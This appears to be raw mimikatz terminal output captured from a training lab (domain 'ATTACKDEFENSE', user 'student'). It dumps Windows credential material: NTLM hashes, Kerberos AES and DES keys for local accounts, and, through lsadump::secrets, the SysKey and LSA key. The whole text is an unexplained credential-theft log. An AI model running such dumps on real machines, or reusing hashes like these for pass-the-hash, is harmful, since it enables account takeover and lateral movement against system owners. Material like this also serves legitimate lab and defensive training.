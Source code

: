 Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : a1528cd40d99e5dfa9fa0809af998696

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 3ff137e53cac32e3e3857dc89b725fd62ae4eee729c1c5c077e54e5882d8bd55
      aes128_hmac       (4096) : 15ac5054635c97d02c174ee3aa672227
      des_cbc_md5       (4096) : ce9b2cabd55df4ce

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WDAGUtilityAccount
    Credentials
      des_cbc_md5       : ce9b2cabd55df4ce


RID  : 000003f0 (1008)
User : student
  Hash NTLM: bd4ca1fbe028f3c5066467a7f6a73b0b

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b8e5edf45f3a42335f1f4906a24a08fe

* Primary:Kerberos-Newer-Keys *
    Default Salt : EC2AMAZ-R69684Tstudent
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : bab064fdaf62216a1577f1d5cd88e162f6962b4a421d199adf4c66b61ec6ac7c
      aes128_hmac       (4096) : 42bc1d17d1236d3afc09efbeba547d2c
      des_cbc_md5       (4096) : 1a975b02a7bf15d5

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : EC2AMAZ-R69684Tstudent
    Credentials
      des_cbc_md5       : 1a975b02a7bf15d5


mimikatz # 

mimikatz # lsadump::secrets
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326

Local name : ATTACKDEFENSE ( S-1-5-21-3688751335-3073641799-161370460 )
Domain name : WORKGROUP

Policy subsystem is : 1.18
LSA Key(s) : 1, default {47980b9c-8bd1-89c9-bfb5-0c4fca25e625}
  [00] {47980b9c-8bd1-89c9-bfb5-0c4fca25e625} 247e7be223db5e50291fc0fcec276ff8236c32a8a6183c5a0d0b6b044590ce06
